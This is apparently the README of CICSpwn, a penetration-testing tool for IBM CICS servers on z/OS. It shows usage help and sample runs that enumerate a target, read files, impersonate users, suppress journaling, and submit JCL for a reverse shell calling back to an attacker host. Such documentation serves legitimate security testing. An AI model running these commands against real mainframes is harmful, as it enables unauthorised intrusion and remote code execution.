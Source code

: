 # CICSpwn
## Description  
CICSpwn is a tool to pentest CICS Transaction servers on z/OS.

## Features    
* Get general information about CICS and the underlying z/OS  
  * List available IBM supplied transactions
  * Get active sessions and userids
  * Get path (HLQ) of files and libraries
  * Check if CICS is using RACF/ACF2/TopSecret   
* Read files created by the application 
* Remotely execute code using Spoolopen and TDqueue
## Usage
```
$python cicspwn.py -h

       ::::::::   :::::::::::   ::::::::    ::::::::   ::::::::: :::       :::::::    ::: 
      :+:    :+:      :+:      :+:    :+:  :+:    :+:  :+:    :+::+:       :+::+:+:   :+: 
      +:+             +:+      +:+         +:+         +:+    +:++:+       +:+:+:+:+  +:+ 
      +#+             +#+      +#+         +#++:++#++  +#++:++#+ +#+  +:+  +#++#+ +:+ +#+  
      +#+             +#+      +#+                +#+  +#+       +#+ +#+#+ +#++#+  +#+#+# 
      #+#    #+#      #+#      #+#    #+#  #+#    #+#  #+#        #+#+# #+#+# #+#   #+#+# 
       ########   ###########   ########    ########   ###         ###   ###  ###    #### 
      
                            The tool for some CICS p0wning !		Author: @Ayoul3__

usage: cicspwn.py [-h] [-a APPLID] [-i] [-t] [-f] [-p PATTERN] [-U USERID]
                  [-P PASSWORD] [--get-file FILENAME]
                  [--enable-trans ENA_TRANS] [-q] [-u] [-g SURROGAT_USER]
                  [-r PROPAGATE_USER] [-s SUBMIT] [--queue QUEUE]
                  [--ftp-cmds FTP_CMDS] [--node NODE] [-l LHOST] [--port PORT]
                  [-j JCL]
                  IP PORT

CicsPwn: a tool to pentest CICS transaction servers on z/OS

positional arguments:
  IP                    The z/OS Mainframe IP or Hostname
  PORT                  CICS/VTAM server Port

optional arguments:
  -h, --help            show this help message and exit
  -a APPLID, --applid APPLID
                        CICS ApplID on VTAM, default is CICS
  -i, --info            Gather information about a CICS region
  -t, --trans           Get all installed transactions on a CICS TS server
  -f, --files           List all installed files a on TS CICS
  -p PATTERN, --pattern PATTERN
                        Specify a pattern of a files/transaction to get
                        (default is "*")
  -U USERID, --userid USERID
                        Specify a userid to use on CICS
  -P PASSWORD, --password PASSWORD
                        Specify a password for the userid
  --get-file FILENAME   Get the content of a file. It attempts to change the
                        status of the file if it's not enabled, opened or
                        readable
  --enable-trans ENA_TRANS
                        Enable a single transaction
  -q, --quiet           Remove Trailing and journal before performing any
                        action
  -u, --userids         Scrape userids found in different menus
  -g SURROGAT_USER, --surrogat SURROGAT_USER
                        Checks wether you can impersonate another user when
                        submitting a job
  -r PROPAGATE_USER, --propagateUser PROPAGATE_USER
                        Given the region user ID, checks wether you are
                        allowed to use it to submit JOBs
  -s SUBMIT, --submit SUBMIT
                        Submit JCL to CICS server. Specify:
                        dummy,reverse_unix, reverse_tso, direct_unix,
                        reverse_unix, ftp or custom (need -j option)
  --queue QUEUE         Provides the name of the TD queue to submit a JOB
  --ftp-cmds FTP_CMDS   Files containig a list of ftp commands to execute
  --node NODE           System node name where the JOB should be submitted
                        (works only with Spool functions)
  -l LHOST, --lhost LHOST
                        Remote server to call back to for reverse shell
                        (host:port)
  --port PORT           Remote port to open for bind shell in REXX
  -j JCL, --jcl JCL     Custom JCL file to provide

```
## Prerequisites
3270 Python library [py3270](https://pypi.python.org/pypi/py3270/0.2.0)

## Getting general information
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -i
[+] Connecting to target 192.168.1.209:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting information about CICS server (APPLID: CICS)
	[*] CICS TS Version 3.2
[+] Available IBM supplied transactions: 
	[*] CEMT
	[*] CECI
	[*] CEDA
	[*] CEDF
[+] General system information: 
	[*] Userid: CICSUSER
	[*] Sysid: S650
	[*] LU session name: LCL704
	[*] language: E
	[*] Files HLQ:	CICS650.**
	[*] Library path:	DFH320.CICS.**
[+] Active users
	[*] CICSUSER
	[*] CICSUSER
[+] JCL Submission
	[*] Access to internal spool is apparently available
	[*] Transiant queue to access spool is apparently available
		[*] When submitting a job, provide the option --inreader=IRDR
[+] Access control
	[+] CICS uses an ESM (RACF/ACF2/TopSecret), might be tricky to access some functions
```
## Reverse shell using CICS
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -s reverse_tso -l 192.168.1.16:4445
[+] Connecting to target 192.168.1.209:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Setting the current terminal to mixed case
[*] Got TerminalID L702
[*] Current terminal is NOW mixed case
[+] Spool not available apparently, trying via TDQueue
[+] Writing to the internal TDQueue
	[*] JCL Written to TDqueue, it should be executed any second

```

## Copyright and license  
cicsPWN is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.  
CICSpwn is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  
See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with nmaptocsv. If not, see http://www.gnu.org/licenses/.

## Credit
The REXX code of the reverse shell was mainly inspired by the work of [@mainframed767](https://github.com/mainframed/Mainframed)

## Contact
Ayoub ELAASSAL ayoul3.zos at gmail dot com

